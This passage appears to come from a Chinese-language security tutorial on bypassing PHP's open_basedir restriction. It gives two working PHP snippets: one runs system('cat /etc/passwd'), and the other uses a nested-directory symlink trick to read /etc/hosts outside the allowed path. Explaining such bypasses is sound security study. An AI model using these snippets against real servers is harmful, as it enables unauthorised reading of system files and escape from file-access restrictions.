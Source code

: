[![](assets/1708675446-26a5c61dc39160234bb8e4ae791381c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121030-51321f72-d138-1.png)

#### shell 命令执行

shell 命令不受 open\_basedir 的影响

```bash
<?php
    show_source(__FILE__);
    ini_get('open_basedir');
    system('cat /etc/passwd');
?>
```

#### symlink()

```bash
<?php
    show_source(__FILE__);

    mkdir("1");chdir("1");
    mkdir("2");chdir("2");
    mkdir("3");chdir("3");
    mkdir("4");chdir("4");

    chdir("..");chdir("..");chdir("..");chdir("..");

    symlink("1/2/3/4","tmplink");
    symlink("tmplink/../../../../etc/hosts","bypass");
    unlink("tmplink");
    mkdir("tmplink");
    echo file_get_contents("bypass");
?>
```
